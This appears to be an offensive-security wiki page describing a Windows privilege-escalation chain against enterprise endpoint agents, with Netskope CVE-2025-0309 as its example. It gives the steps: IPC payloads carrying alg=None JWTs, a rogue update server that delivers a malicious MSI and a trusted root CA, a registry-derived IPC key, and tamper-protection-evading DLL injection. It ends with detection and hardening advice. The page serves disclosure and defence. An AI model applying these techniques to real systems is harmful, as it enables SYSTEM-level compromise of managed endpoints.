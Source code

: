 # Abusing Enterprise Auto-Updaters and Privileged IPC (e.g., Netskope stAgentSvc)


This page generalizes a class of Windows local privilege escalation chains found in enterprise endpoint agents and updaters that expose a low‑friction IPC surface and a privileged update flow. A representative example is Netskope Client for Windows < R129 (CVE-2025-0309), where a low‑privileged user can coerce enrollment into an attacker‑controlled server and then deliver a malicious MSI that the SYSTEM service installs.

Key ideas you can reuse against similar products:
- Abuse a privileged service’s localhost IPC to force re‑enrollment or reconfiguration to an attacker server.
- Implement the vendor’s update endpoints, deliver a rogue Trusted Root CA, and point the updater to a malicious, “signed” package.
- Evade weak signer checks (CN allow‑lists), optional digest flags, and lax MSI properties.
- If IPC is “encrypted”, derive the key/IV from world‑readable machine identifiers stored in the registry.
- If the service restricts callers by image path/process name, inject into an allow‑listed process or spawn one suspended and bootstrap your DLL via a minimal thread‑context patch.

---
## 1) Forcing enrollment to an attacker server via localhost IPC

Many agents ship a user‑mode UI process that talks to a SYSTEM service over localhost TCP using JSON.

Observed in Netskope:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Exploit flow:
1) Craft a JWT enrollment token whose claims control the backend host (e.g., AddonUrl). Use alg=None so no signature is required.
2) Send the IPC message invoking the provisioning command with your JWT and tenant name:

```json
{
  "148": {
    "idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
    "tenantName": "TestOrg"
  }
}
```
```
3) The service starts hitting your rogue server for enrollment/config, e.g.:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Notes:
- If caller verification is path/name‑based, originate the request from a allow‑listed vendor binary (see §4).

---
## 2) Hijacking the update channel to run code as SYSTEM

Once the client talks to your server, implement the expected endpoints and steer it to an attacker MSI. Typical sequence:

1) /v2/config/org/clientconfig → Return JSON config with a very short updater interval, e.g.:
```json
{
  "clientUpdate": { "updateIntervalInMin": 1 },
  "check_msi_digest": false
}
```
```2) /config/ca/cert → Return a PEM CA certificate. The service installs it into the Local Machine Trusted Root store.
3) /v2/checkupdate → Supply metadata pointing to a malicious MSI and a fake version.

Bypassing common checks seen in the wild:
- Signer CN allow‑list: the service may only check the Subject CN equals “netSkope Inc” or “Netskope, Inc.”. Your rogue CA can issue a leaf with that CN and sign the MSI.
- CERT_DIGEST property: include a benign MSI property named CERT_DIGEST. No enforcement at install.
- Optional digest enforcement: config flag (e.g., check_msi_digest=false) disables extra cryptographic validation.

Result: the SYSTEM service installs your MSI from
C:\ProgramData\Netskope\stAgent\data\*.msi
executing arbitrary code as NT AUTHORITY\SYSTEM.

---
## 3) Forging encrypted IPC requests (when present)

From R127, Netskope wrapped IPC JSON in an encryptData field that looks like Base64. Reversing showed AES with key/IV derived from registry values readable by any user:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Attackers can reproduce encryption and send valid encrypted commands from a standard user. General tip: if an agent suddenly “encrypts” its IPC, look for device IDs, product GUIDs, install IDs under HKLM as material.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Some services try to authenticate the peer by resolving the TCP connection’s PID and comparing the image path/name against allow‑listed vendor binaries located under Program Files (e.g., stagentui.exe, bwansvc.exe, epdlp.exe).

Two practical bypasses:
- DLL injection into an allow‑listed process (e.g., nsdiag.exe) and proxy IPC from inside it.
- Spawn an allow‑listed binary suspended and bootstrap your proxy DLL without CreateRemoteThread (see §5) to satisfy driver‑enforced tamper rules.

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Products often ship a minifilter/OB callbacks driver (e.g., Stadrv) to strip dangerous rights from handles to protected processes:
- Process: removes PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: restricts to THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

A reliable user‑mode loader that respects these constraints:
1) CreateProcess of a vendor binary with CREATE_SUSPENDED.
2) Obtain handles you’re still allowed to: PROCESS_VM_WRITE | PROCESS_VM_OPERATION on the process, and a thread handle with THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (or just THREAD_RESUME if you patch code at a known RIP).
3) Overwrite ntdll!NtContinue (or other early, guaranteed‑mapped thunk) with a tiny stub that calls LoadLibraryW on your DLL path, then jumps back.
4) ResumeThread to trigger your stub in‑process, loading your DLL.

Because you never used PROCESS_CREATE_THREAD or PROCESS_SUSPEND_RESUME on an already‑protected process (you created it), the driver’s policy is satisfied.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) automates a rogue CA, malicious MSI signing, and serves the needed endpoints: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope is a custom IPC client that crafts arbitrary (optionally AES‑encrypted) IPC messages and includes the suspended‑process injection to originate from an allow‑listed binary.

---
## 7) Detection opportunities (blue team)
- Monitor additions to Local Machine Trusted Root. Sysmon + registry‑mod eventing (see SpecterOps guidance) works well.
- Flag MSI executions initiated by the agent’s service from paths like C:\ProgramData\<vendor>\<agent>\data\*.msi.
- Review agent logs for unexpected enrollment hosts/tenants, e.g.: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – look for addonUrl / tenant anomalies and provisioning msg 148.
- Alert on localhost IPC clients that are not the expected signed binaries, or that originate from unusual child process trees.

---
## Hardening tips for vendors
- Bind enrollment/update hosts to a strict allow‑list; reject untrusted domains in clientcode.
- Authenticate IPC peers with OS primitives (ALPC security, named‑pipe SIDs) instead of image path/name checks.
- Keep secret material out of world‑readable HKLM; if IPC must be encrypted, derive keys from protected secrets or negotiate over authenticated channels.
- Treat the updater as a supply‑chain surface: require a full chain to a trusted CA you control, verify package signatures against pinned keys, and fail closed if validation is disabled in config.

## References
- [[https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/|Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)]]
- [[https://github.com/AmberWolfCyber/NachoVPN|NachoVPN – Netskope plugin]]
- [[https://github.com/AmberWolfCyber/UpSkope|UpSkope – Netskope IPC client/exploit]]
- [[https://nvd.nist.gov/vuln/detail/CVE-2025-0309|NVD – CVE-2025-0309]]

